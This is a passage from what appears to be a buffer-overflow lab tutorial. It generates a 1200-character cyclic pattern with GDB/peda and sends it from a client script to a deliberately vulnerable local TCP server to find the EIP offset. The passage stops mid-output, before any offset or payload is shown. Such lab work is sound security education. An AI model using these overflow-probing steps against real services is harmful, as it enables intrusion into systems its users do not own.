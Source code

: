 Cool! Let's also check the offset for EIP, using GDB and [peda](https://github.com/longld/peda)'s `pattern_create` function. 
In this case, since the buffer size is 1024, I created a pattern with 1200 characters, so it will be large enough to overflow.

```
⇒  gdb -q ./tcp_server 
Reading symbols from ./tcp_server...(no debugging symbols found)...done.
gdb-peda$ pattern_create 1200
'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAnAASAAoAATAApAAUAAqAAVAArAAWAAsAAXAAtAAYAAuAAZAAvAAwAAxAAyAAzA%%A%sA%BA%$A%nA%CA%-A%(A%DA%;A%)A%EA%aA%0A%FA%bA%1A%GA%cA%2A%HA%dA%3A%IA%eA%4A%JA%fA%5A%KA%gA%6A%LA%hA%7A%MA%iA%8A%NA%jA%9A%OA%kA%PA%lA%QA%mA%RA%nA%SA%oA%TA%pA%UA%qA%VA%rA%WA%sA%XA%tA%YA%uA%ZA%vA%wA%xA%yA%zAs%AssAsBAs$AsnAsCAs-As(AsDAs;As)AsEAsaAs0AsFAsbAs1AsGAscAs2AsHAsdAs3AsIAseAs4AsJAsfAs5AsKAsgAs6AsLAshAs7AsMAsiAs8AsNAsjAs9AsOAskAsPAslAsQAsmAsRAsnAsSAsoAsTAspAsUAsqAsVAsrAsWAssAsXAstAsYAsuAsZAsvAswAsxAsyAszAB%ABsABBAB$ABnABCAB-AB(ABDAB;AB)ABEABaAB0ABFABbAB1ABGABcAB2ABHABdAB3ABIABeAB4ABJABfAB5ABKABgAB6ABLABhAB7ABMABiAB8ABNABjAB9ABOABkABPABlABQABmABRABnABSABoABTABpABUABqABVABrABWABsABXABtABYABuABZABvABwABxAByABzA$%A$sA$BA$$A$nA$CA$-A$(A$DA$;A$)A$EA$aA$0A$FA$bA$1A$GA$cA$2A$HA$dA$3A$IA$eA$4A$JA$fA$5A$KA$gA$6A$LA$hA$7A$MA$iA$8A$NA$jA$9A$OA$kA$PA$lA$QA$mA$RA$nA$SA$oA$TA$pA$UA$qA$VA$rA$WA$sA$XA$tA$YA$uA$ZA$vA$wA$xA$yA$zAn%AnsAnBAn$AnnAnCAn-An(AnDAn;An)AnEAnaAn0AnFAnbAn1AnGAncAn2AnHAndAn3AnIAneAn4AnJAnfAn5AnKAngAn6AnLAnhAn7AnMAniAn8AnNAnjAn9AnOAnkAnPAnlAnQAnmAnRAnnAnSAnoAnTAnpAnUAn'
```

Copy the pattern to the value of `MESSAGE` for the client script.
Then start the server inside the GDB by `run 1234`, and on another terminal, start the client.
The output on the client terminal should look like the following.

```
$ cat simple_client.py | grep "MESSAGE = "
MESSAGE = 'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAnAASAAoAATAApAAUAAqAAVAArAAWAAsAAXAAtAAYAAuAAZAAvAAwAAxAAyAAzA%%A%sA%BA%$A%nA%CA%-A%(A%DA%;A%)A%EA%aA%0A%FA%bA%1A%GA%cA%2A%HA%dA%3A%IA%eA%4A%JA%fA%5A%KA%gA%6A%LA%hA%7A%MA%iA%8A%NA%jA%9A%OA%kA%PA%lA%QA%mA%RA%nA%SA%oA%TA%pA%UA%qA%VA%rA%WA%sA%XA%tA%YA%uA%ZA%vA%wA%xA%yA%zAs%AssAsBAs$AsnAsCAs-As(AsDAs;As)AsEAsaAs0AsFAsbAs1AsGAscAs2AsHAsdAs3AsIAseAs4AsJAsfAs5AsKAsgAs6AsLAshAs7AsMAsiAs8AsNAsjAs9AsOAskAsPAslAsQAsmAsRAsnAsSAsoAsTAspAsUAsqAsVAsrAsWAssAsXAstAsYAsuAsZAsvAswAsxAsyAszAB%ABsABBAB$ABnABCAB-AB(ABDAB;AB)ABEABaAB0ABFABbAB1ABGABcAB2ABHABdAB3ABIABeAB4ABJABfAB5ABKABgAB6ABLABhAB7ABMABiAB8ABNABjAB9ABOABkABPABlABQABmABRABnABSABoABTABpABUABqABVABrABWABsABXABtABYABuABZABvABwABxAByABzA$%A$sA$BA$$A$nA$CA$-A$(A$DA$;A$)A$EA$aA$0A$FA$bA$1A$GA$cA$2A$HA$dA$3A$IA$eA$4A$JA$fA$5A$KA$gA$6A$LA$hA$7A$MA$iA$8A$NA$jA$9A$OA$kA$PA$lA$QA$mA$RA$nA$SA$oA$TA$pA$UA$qA$VA$rA$WA$sA$XA$tA$YA$uA$ZA$vA$wA$xA$yA$zAn%AnsAnBAn$AnnAnCAn-An(AnDAn;An)AnEAnaAn0AnFAnbAn1AnGAncAn2AnHAndAn3AnIAneAn4AnJAnfAn5AnKAngAn6AnLAnhAn7AnMAniAn8AnNAnjAn9AnOAnkAnPAnlAnQAnmAnRAnnAnSAnoAnTAnpAnUAn'
$ python simple_client.py 1234

```

On the other hand, the output for the server side should look like the following.


```
gdb-peda$ run 1234
Starting program: /home/taishi/workspace/bof_lab/vuln_server/tcp_server 1234
Will read 1200 bytes
Read: 1200 bytes
Incoming message: AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAnAASAAoAATAApAAUAAqAAVAArAAWAAsAAXAAtAAYAAuAAZAAvAAwAAxAAyAAzA%%A%sA%BA%$A%nA%CA%-A%(A%DA%;A%)A%EA%aA%0A%FA%bA%1A%GA%cA%2A%HA%dA%3A%IA%eA%4A%JA%fA%5A%KA%gA%6A%LA%hA%7A%MA%iA%8A%NA%jA%9A%OA%kA%PA%lA%QA%mA%RA%nA%SA%oA%TA%pA%UA%qA%VA%rA%WA%sA%XA%tA%YA%uA%ZA%vA%wA%xA%yA%zAs%AssAsBAs$AsnAsCAs-As(AsDAs;As)AsEAsaAs0AsFAsbAs1AsGAscAs2AsHAsdAs3AsIAseAs4AsJAsfAs5AsKAsgAs6AsLAshAs7AsMAsiAs8AsNAsjAs9AsOAskAsPAslAsQAsmAsRAsnAsSAsoAsTAspAsUAsqAsVAsrAsWAssAsXAstAsYAsuAsZAsvAswAsxAsyAszAB%ABsABBAB$ABnABCAB-AB(ABDAB;AB)ABEABaAB0ABFABbAB1ABGABcAB2ABHABdAB3ABIABeAB4ABJABfAB5ABKABgAB6ABLABhAB7ABMABiAB8ABNABjAB9ABOABkABPABlABQABmABRABnABSABoABTABpABUABqABVABrABWABsABXABtABYABuABZABvABwABxAByABzA$%A$sA$BA$$A$nA$CA$-A$(A$DA$;A$)A$EA$aA$0A$FA$bA$1A$GA$cA$2A$HA$dA$3A$IA$eA$4A$JA$fA$5A$KA$gA$6A$LA$hA$7A$MA$iA$8A$NA$jA$9A$OA$kA$PA$lA$QA$mA$RA$nA$SA$oA$TA$pA$UA$qA$VA$rA$WA$sA$XA$tA$YA$uA$ZA$v�

```